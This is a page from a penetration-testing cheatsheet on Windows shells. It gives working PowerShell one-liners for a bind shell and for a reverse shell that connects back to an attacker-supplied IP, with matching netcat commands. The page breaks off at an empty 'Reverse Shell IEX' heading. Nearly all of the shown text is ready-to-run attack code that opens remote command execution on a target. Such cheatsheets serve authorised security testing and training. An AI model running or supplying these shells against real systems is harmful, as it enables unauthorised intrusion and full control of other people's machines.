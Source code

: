 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

powershell
==========

**Bind Shell**
--------------

_TARGET_
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<BIND_PORT>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"  
```

_LOCAL_

```
nc <TARGET_IP> <BIND_PORT>

```

**Reverse Shell Single Line**
-----------------

_LOCAL_

nc -nlvp <REVERSE_PORT>

_TARGET_

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<MY_IP>',<REVERSE_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Reverse Shell IEX**

_LOCAL_
>
